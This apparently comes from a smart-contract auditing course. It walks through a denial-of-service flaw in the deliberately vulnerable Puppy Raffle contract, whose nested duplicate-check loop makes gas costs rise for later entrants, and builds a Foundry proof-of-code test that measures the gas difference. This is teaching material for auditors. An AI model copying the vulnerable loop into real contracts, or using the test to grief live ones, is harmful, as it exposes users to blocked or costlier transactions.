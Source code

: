 ```yaml
---
title: DoS - PoC (Proof of Code)
---
```


_Follow along with this video:_

---

### Back to Puppy Raffle

Now that we possess a little more context and understanding of what a `Denial of Service` attack is, and what it can mean for a protocol, let's return to Puppy Raffle and remind ourselves where we began.

```js
/// @notice this is how players enter the raffle
/// @notice they have to pay the entrance fee * the number of players
/// @notice duplicate entrants are not allowed
/// @param newPlayers the list of players to enter the raffle
function enterRaffle(address[] memory newPlayers) public payable {
    require(msg.value == entranceFee * newPlayers.length, "PuppyRaffle: Must send enough to enter raffle");
    for (uint256 i = 0; i < newPlayers.length; i++) {
        players.push(newPlayers[i]);
    }

    // Check for duplicates
    for (uint256 i = 0; i < players.length - 1; i++) {
        for (uint256 j = i + 1; j < players.length; j++) {
            require(players[i] != players[j], "PuppyRaffle: Duplicate player");
        }
    }
    emit RaffleEnter(newPlayers);
}
```

This should look very familiar to us by now:

```js
// Check for duplicates
// @audit Possible DoS
for (uint256 i = 0; i < players.length - 1; i++) {
    for (uint256 j = i + 1; j < players.length; j++) {
        require(players[i] != players[j], "PuppyRaffle: Duplicate player");
    }
}
```

At this point I would add this to my `notes.md`, you may want to come back to this later and continue assessing the code back, but let's go ahead and prove this finding now.

### Proof of Code

If the protocol has an existing test suite, it's often easier to add our tests to it then write things from scratch.

Run `forge test` to make sure the test suite is working correctly so far!

There are lots of useful parts of `PuppyRaffle.t.sol` we can use for our PoC.

Now, here's your challenge. I want you to try and write the `Proof of Code` yourself. Build those skills by trying to write a test function that shows the potential `Denial of Service` we've uncovered.

<details>
<summary> The Proof of Code </summary>

Great! Now that you've _100%_ tried this yourself, let's go through it together.

I would start by harvesting the existing `testCanEnterRaffle` function. This is a great boilerplate for what we're trying to show.

```js
function testCanEnterRaffle() public {
    address[] memory players = new address[](1);
    players[0] = playerOne;
    puppyRaffle.enterRaffle{value: entranceFee}(players);
    assertEq(puppyRaffle.players(0), playerOne);
}
```

Let's repurpose this!

```js
function testDenialOfService() public {
    // Foundry lets us set a gas price
    vm.txGasPrice(1);

    // Creates 100 addresses
    uint256 playersNum = 100;
    address[] memory players = new address[](playersNum);
    for(uint i = 0; i < players.length; i++){
        players[i] = address(i);
    }

    // Gas calculations for first 100 players
    uint256 gasStart = gasleft();
    puppyRaffle.enterRaffle{value: entranceFee * players.length}(players);
    uint256 gasEnd = gasleft();
    uint256 gasUsedFirst = (gasStart - gasEnd) * tx.gasprice;
    console.log("Gas cost of the first 100 players: ", gasUsedFirst);
}
```

Running the command `forge test --mt testDenialOfService -vvv` should give us an output like this:

::image{src='/security-section-4/13-dos-poc/dos-poc1.png' style='width: 75%; height: auto;'}

Now let's do the same thing for the second 100 players! We'll need to add something like this to our test.

```js
// Creats another array of 100 players
address[] memory playersTwo = new address[](playersNum);
for (uint256 i = 0; i < playersTwo.length; i++) {
    playersTwo[i] = address(i + playersNum);
}

// Gas calculations for second 100 players
uint256 gasStartTwo = gasleft();
puppyRaffle.enterRaffle{value: entranceFee * players.length}(playersTwo);
uint256 gasEndTwo = gasleft();
uint256 gasUsedSecond = (gasStartTwo - gasEndTwo) * tx.gasprice;
console.log("Gas cost of the second 100 players: ", gasUsedSecond);

assert(gasUsedFirst < gasUsedSecond);
```

If we rerun our test we can see.. Our test passes! The second 100 players are paying _a LOT_ more and are at a significant disadvantage!

::image{src='/security-section-4/13-dos-poc/dos-poc2.png' style='width: 75%; height: auto;'}

</details>

---

### Wrap Up

That's all there is to it. We've clearly shown a potential `Denial of Service` through our `Proof of Code`. This test function is going to go right into our report.

Let's do that now!
